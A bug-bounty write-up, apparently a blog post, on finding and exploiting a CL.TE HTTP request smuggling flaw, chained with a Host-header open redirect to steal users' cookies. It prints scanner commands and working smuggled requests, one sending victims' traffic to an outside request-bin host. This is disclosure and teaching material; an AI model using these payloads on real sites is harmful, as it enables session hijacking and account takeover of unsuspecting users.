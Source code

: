 ```yaml
---
title: I owe your Request | HTTP Request Smuggling leads to Full Accounts takeover
author: Muhammad Adel
date: 2021-08-29 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, http request smuggling, writeups]
---
```


## **Introduction**
Peace be upon you all, this is actually my first writeup which going to be about a very interesting vulnerability, HTTP Request Smuggling, which I found in a private program which I was able to escalate it Full account takeover. I am going to share with you how to search for this vulnerability in a large scale and what the best tool and resource to utilize when testing for this vulnerability.

It begins almost when the amazing researcher [James kettle](https://twitter.com/albinowax) announce his new research at DEFCON which address a new era of the HTTP request smuggling but this time for HTTP/2. I watched the video and I couldn't understand any thing, So I went back and studied the previous version of this attack and I thought what about testing this "rare attack" as some people think before moving to the new one. I ended up finding this critical vulnerability at two different private programs.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHFxfVj0C3vf_kr-u0%2Ftwitter.png?alt=media&token=76b7e577-2df0-4f4c-96f1-c7624ad3a351)

## **About HTTP Request Smuggling**
HTTP request smuggling is an attack in which an attacker interferes with the processing of a sequence of HTTP requests that a web application receives from one or more users. Vulnerabilities related to HTTP request smuggling are often critical, allowing an attacker to bypass security measures, gain unauthorized access to sensitive data, and directly compromise the information of other users of the application.

I am not going to cover it here because Portswigger did really good job at explaining this with practical Labs.

[https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)

## **Methodology**
After you had learned about the vulnerability you can start looking for it in some bug bounty programs. you have two methods but remember you need to test this with caution because it is very harmful:

1.Using HTTP Request Smuggling Burp Extension either burp community or pro. you can widen your scope by adding more subdomains and URLs select them all and from the extension tab click **smuggle probe.**

‌2\. Using [smuggler.py](https://github.com/defparam/smuggler) tool which is a command line tool that replicate almost the same work of burp extension.

```bash
# Single Host:
python3 smuggler.py -u <URL>

# List of hosts:
cat list_of_hosts.txt | python3 smuggler.py
```
‌Note: These scanner will not guarantee the existing of vulnerability, there are false positives so you need to validate every finding of any of these tools.
‌
## **The Finding**

Since it is a private program we are going to name it as `readcted.com`I started by collecting some subdomains then I feed all those subdomain to burp and started to crawl the website. Then I run burp extension scanner in all the subdomains. and after some time I found this issue at my target tab.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHNT93loWWcwRV3sTA%2Fburp_issue.png?alt=media&token=4d18476c-72bc-4dcc-add0-d7de0ee221db)

It is a CT.TE Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. this information is very important to be able to exploit the vulnerability.

### **Validating**

I started now to validate if the vulnerability exits of its just a false positive. I send the following request:

‌

```
POST / HTTP/1.1 
Host: subdoamin.readcted.com
Upgrade-Insecure-Requests: 1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 7 
Transfer-Encoding: chunked 
Transfer-encoding: identity


1
A
0
```
which successfully triggers a connection time out indicating the backend server process the transfer encoding header. Now it is the time to exploit it.

### **Exploiting**

To exploit HTTP Request Smuggling Vulnerability you have to use turbo intruder to be able to send concurrent request and to receive the smuggled one before it reach the user. we will send the following request:

‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Foo: x
```
We manged to send the smuggled request to **`/video`** to be able to disrupt the user experience by smuggle a not found web page. then we will chose **`smuggle attack CL.TE`** form the extension tab and then click attack.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHTkc_PU7-cN6_EbLN%2Fnot_found%20turbo%20intuder.png?alt=media&token=53a10c8c-d248-4983-be21-a0cd2ba3c881)

Great! now we confirmed that the vulnerability exists and can disrupt the user experience who browse the website to redirect him to a not found page. but still we need to escalate this vulnerability to something else. as you know HTTP Request smuggling can lead to many vulnerabilities but still we need anther harmless vulnerability like Self XSS or Open redirection to be able to escalate our attack. I manged to search for Self XSS but unfortunately I didn't find. Let's search for an open redirected.

### **Harmless Open Redirect**

what we need to find is an open redirection to be able to redirect the user traffic with their own cookie to our server. we have found before a local redirection which is if the website isn't found it will make a redirection like the following:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMRuFbfOUxn-gI7MvH%2Flocal%20redirection.png?alt=media&token=918b888e-cce1-42b6-9238-49b7f140fb67)

The problem is that the redirection is locally in the website and we need an external one. but what if change the host header to something else?!

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMSa2Vt5Cnx5F579av%2Fexternal%20redirection.png?alt=media&token=2673760a-394a-44ba-8339-6ac730428b47)

**BINGO!!** almost all the companies will not accept this vulnerability per se but by combining this with HTTP Request Smuggling we will do Magic!

### **Escalating to Full Account takeover**

Now let's craft our request that will be smuggled to send our malicious one. I will [request bin ](https://requestbin.com/)to receive users traffic into my endpoint. the payload shall looks like the following:
‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Host: enfliy4kmrr8i.x.pipedream.net
Foo: x
```

and then pass our request to turbo intruder and start our attack:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN12rU2wKYeV-0YdJu%2F1-turbo-intruder-redacted.png?alt=media&token=2cc95312-90cc-49ad-aee0-9016c56a0f11)

Okay, the attack worked now let's back to or endpoint to see what's happen.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN2Uly_EoUyexj4Omh%2F3-Request%20bin%20--%20with%20Cookie-redacted.png?alt=media&token=2b599ba5-3516-45b1-914b-341164a2c1fc)

**BOOM!!** My endpoint is flooding with requests that contains cookie. Now, I can fully takeover any account who is browsing the website.


## **Conclusion**

I have reported this and they are working on a fix at the current moment. The sad story is that this report has been closed as duplicate but I was able to find the same technique on anther website and received 4 digit bounty as reward.

I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!